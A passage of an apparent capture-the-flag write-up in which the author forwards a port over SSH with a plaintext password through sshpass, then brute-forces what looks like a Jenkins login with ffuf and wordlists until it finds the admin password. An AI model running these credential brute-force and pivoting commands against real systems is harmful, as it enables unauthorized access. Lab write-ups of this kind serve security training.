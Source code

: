 Local port forward 8080

```bash
sshpass -p 'bubb13guM!@#123' ssh -o "StrictHostKeyChecking no" aubreanna@internal.thm -L 8888:127.0.0.1:8080
```

![](/assets/obsidian/1ed105a477b7f28027dffd949d90527f.png)

Tried login with `aubreanna`, failed

Brute force

> Tried common user names and passwords, no result

```bash
ffuf -c -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZ1 -w /usr/share/seclists/Passwords/darkweb2017-top100.txt:FUZZ2 -request login.req -request-proto http -v -fr 'loginError'
```

Specify user admin and wordlist `rockyou.txt`

```bash
ffuf -c -w /opt/wordlists/rockyou.txt -request login.req -request-proto http -v -fr 'loginError'
```

```bash
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4228ms]
| URL | http://127.0.0.1:8888/j_acegi_security_check
| --> | http://127.0.0.1:8888/
    * FUZZ: spongebob
```
